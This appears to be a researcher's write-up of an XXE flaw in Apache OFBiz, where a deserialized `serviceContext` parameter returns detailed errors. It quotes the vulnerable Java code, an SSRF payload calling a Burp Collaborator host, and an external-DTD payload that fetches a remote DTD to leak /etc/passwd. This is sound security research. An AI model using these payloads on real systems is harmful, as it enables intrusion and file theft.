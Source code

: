 The error message is from the same file as earlier. The request parameter `serviceContext` is being assigned to the variable `xmlContext` and then passed to the following <a href="https://github.com/apache/ofbiz/blob/release16.11/framework/service/src/main/java/org/apache/ofbiz/service/engine/HttpEngine.java#L126-L142" target="_blank">function</a>, which attempts to deserialize it.

```java
if (xmlContext != null) {
    try {
        Object o = XmlSerializer.deserialize(xmlContext, delegator);
        if (o instanceof Map<?, ?>)
            context = UtilGenerics.checkMap(o);
        else {
            Debug.logError("Context not an instance of Map error", module);
            result.put(ModelService.ERROR_MESSAGE, "Context not an instance of Map");
        }
    } catch (Exception e) {
        Debug.logError(e, "Deserialization error", module);
        result.put(ModelService.ERROR_MESSAGE, "Error occurred deserializing context: " + e.toString());
    }
}
```

If an exception is thrown, the application will return a detailed error message with `e.toString()`. This is where the XXE comes into play. After much trial and error, including many unsuccessful attempts at accessing local files, I found that I could trigger a Server Side Request Forgery (SSRF) by URL-encoding the following XML payload:

```xml
<!DOCTYPE x [
<!ENTITY % req SYSTEM "http://x.burpcollaborator.net">
%req;
]>
```

That's when I realized that this vulnerability could only be exploited using an external Document Type Definition (DTD) declaration. There are plenty of resources that can explain XML syntax better than I, but this essentially means that the XML parser needs to reference another file for instructions on how to behave.

## Exploitation
### Method #1 -- Externally Hosted DTD File
The following XML payload contains multiple stages:

```xml
<!DOCTYPE x [
<!ENTITY % request-external-dtd SYSTEM "http://example.com/ext.dtd">
<!ENTITY % target-file SYSTEM "file:///etc/passwd">
%request-external-dtd;
%trigger-error;
]>
<x>&disclose;</x>
```
